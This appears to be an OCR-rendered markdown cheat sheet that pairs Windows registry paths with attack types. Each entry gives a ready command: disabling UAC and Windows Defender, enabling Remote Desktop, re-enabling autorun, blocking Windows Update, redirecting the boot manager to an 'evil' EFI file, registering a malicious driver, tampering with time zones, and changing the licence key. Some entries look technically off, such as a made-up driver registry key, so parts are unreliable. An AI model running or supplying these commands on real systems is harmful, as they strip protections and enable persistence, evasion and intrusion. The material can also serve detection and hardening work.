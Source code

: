 ### Time Zone Manipulation
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation`  
**Attacks:** Timestamp Manipulation, Evidence Tampering  
**Codes:** `reg add HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation /v TimeZoneKeyName /t REG_SZ /d "EvilTimeZone"`

### Driver Loading
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\DriverDatabase`  
**Attacks:** Kernel-Level Persistence, Privilege Escalation  
**Codes:** `reg add HKLM\SYSTEM\CurrentControlSet\Services\DriverDatabase /v EvilDriver /t REG_SZ /d "evildriver.sys"`

### Remote Desktop Configuration
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server`  
**Attacks:** Unauthorized Remote Access  
**Codes:** `reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0`

### Autorun Settings Manipulation
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
**Attacks:** Malware Execution via Removable Media  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDriveTypeAutoRun /t REG_DWORD /d 0`

### User Account Control (UAC) Bypass
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`  
**Attacks:** Privilege Escalation, UAC Bypass  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0`

### Windows Defender Manipulation
**Registry Path:** `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender`  
**Attacks:** Antivirus Bypass, Malware Execution  
**Codes:** `reg add HKLM\SOFTWARE\Policies\Microsoft\Windows Defender /v DisableAntiSpyware /t REG_DWORD /d 1`

### Boot Configuration Data
**Registry Path:** `HKLM\BCD00000000`  
**Attacks:** Bootkit Installation, System Integrity Compromise  
**Codes:** `bcdedit /set {bootmgr} path \EFI\evil\evilmgr.efi`

### Windows Update Manipulation
**Registry Path:** `HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate`  
**Attacks:** Denial of Service, System Vulnerability Exploitation  
**Codes:** `reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate /v DisableWindowsUpdateAccess /t REG_DWORD /d 1`

### Windows Activation Bypass
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SoftwareProtectionPlatform`  
**Attacks:** Software Piracy, Licensing Bypass  
**Codes:** `slmgr /ipk XXXXX-XXXXX-XXXXX-XXXXX-XXXXX`
